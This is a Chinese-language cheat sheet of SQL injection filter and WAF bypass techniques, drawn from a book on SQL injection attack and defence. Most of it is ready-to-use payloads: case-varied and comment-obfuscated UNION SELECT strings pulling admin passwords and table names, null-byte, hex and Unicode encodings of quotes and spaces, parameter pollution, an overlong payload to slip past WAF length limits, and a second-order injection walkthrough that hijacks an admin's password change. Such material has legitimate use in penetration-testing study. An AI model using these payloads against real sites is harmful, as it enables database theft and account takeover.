

绕过技巧
================================

参考《SQL注入攻击与防御》273页。

- 移动注入位置
	::
	
		如：http://www.example.com/index.php?id=1
		将id=1通过放在表单，或cookie中，测试程序响应是否正常，并进行注入测试。
	
- 大小写变种
	``uNiOn SeLeCt password FrOm tblUsers WhEre username='admin'--``

- SQL注释
    - ``//`` ``--`` ``-- +`` ``-- -`` ``#`` ``/**/`` ``;%00``
    - 内联注释用的更多，它有一个特性 ``/!**/`` 只有MySQL能识别
    - e.g. ``id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#``
- URL编码
	如 ``/?id=1' or 1=1`` 如果value字符串中包含了=,&,'等字符，那么势必会造成接收Url的服务器解析错误，因此必须将引起歧义的&,=,'等符号进行转义，原理如下图所示：

	|sqlbypassurlencode|

- 动态拼接
	- oracle:``'SEL'||'ECT'``
	- MS-SQL:``'SEL'+'ECT'``
	- MySQL:``'SEL' 'ECT'``
	
- 使用空字节
	在过滤器阻止的字符前面提供一个URL编码的空字节（%00）即可。
	如 ``%00' UNION SELECT password FROM tblUsers WHERE username='admin'--`` 

- 通用编码
	- ``or 1=1即%6f%72%20%31%3d%31``
	- ``CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)``
	- ``0x53454c4543542070617373776f72642046524f4d2074626c5573657273``
	- ``单引号：%u0027、%u02b9、%u02bc、 %u02c8、 %u2032、 %uff07、 %c0%27、 %c0%a7、 %e0%80%a7``
	- ``空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0``
	- ``左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8``
	- ``右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9``
	- ``举例：?id=10%D6‘%20AND%201=2%23 SELECT 'Ä'='A'; #1``

- HTTP参数
    - HTTP参数污染
        - ``id=1&id=2&id=3`` 根据容器不同会有不同的结果
    - HTTP分割注入

- 缓冲区溢出
	- 一些C语言的WAF处理的字符串长度有限，超出某个长度后的payload可能不会被处理
	- ``举例：?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26``

- 二阶注入
	- 先构造语句（有被转义字符的语句）
	- 我们构造的恶意语句存入数据库
	- 第二次构造语句（结合前面已经存入数据库的语句，成功。因为系统没有对已经存入数据库的数据做检查）
	- 二次注入更加难以被发现

	::

		假如有一个网站管理员的用户名为：root,密码为:123456789,攻击者注册了一个账号:root'--,密码为:123
		因为账号当中有特殊字符，网站对于特殊字符进行了转义，一次注入在这就行不通了。
		虽然账号被转义了，但是他在数据库当中任然是以  root'--   的方式被储存的。
		现在攻击者开始实施正真的攻击了，他开始对账号修改密码。
		普通网站修改密码的过程为：先判断用户是否存在------》确认用户以前的密码是否正确--------》
		获取要修改的密码---------》修改密码成功。
		在数据库中 -- 表示注释的意思，后面的语句不会执行，而root后面的那个单引号又与前面的 '  闭合，
		而原本后面的那个单引号因为是在 --  之后，所以就被注释掉了，所以他修改的其实是   root  的密码。

